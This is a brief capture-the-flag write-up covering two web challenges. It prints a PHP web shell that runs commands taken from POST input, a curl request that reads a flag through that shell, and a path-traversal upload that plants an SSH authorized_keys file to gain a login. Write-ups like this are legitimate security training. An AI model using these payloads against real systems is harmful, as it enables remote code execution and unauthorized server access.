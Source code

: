 ```yaml
---
created: 2024-06-27T07:05
updated: 2024-06-27T07:15
---
```


# thehackerconclave

3 hour CTF with a bunch of typos and mis-management.

Joined [@WorldWideFlags](https://ctftime.org/team/283853) on this one.

## Bad Upload

### Payload

```php
<?php
echo 'Command:';
if($_POST){
system($_POST['cmd']);
}
__halt_compiler();
?>
```

Simply edit the HTML markup, and replace one of the option values with `php`.

```shell
curl --request POST \
  --url http://ctf.thehackerconclave.es:20003/documents/payload.php \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data 'cmd=cat /flag/flag.txt'
```

## Backup server

### Generate Key

```sh
ssh-keygen
```

### Rename public key to `authorized_keys` and upload to `.ssh/`

```curl
curl --request POST \
  --url http://ctf.thehackerconclave.es:20007/index.php \
  --header 'Content-Type: multipart/form-data' \
  --form 'file=@authorized_keys' \
  --form directory=../.ssh
```

### Connect to it with private key

```shell
 ssh -i sshkey user1@ctf.thehackerconclave.es -p 20008
```

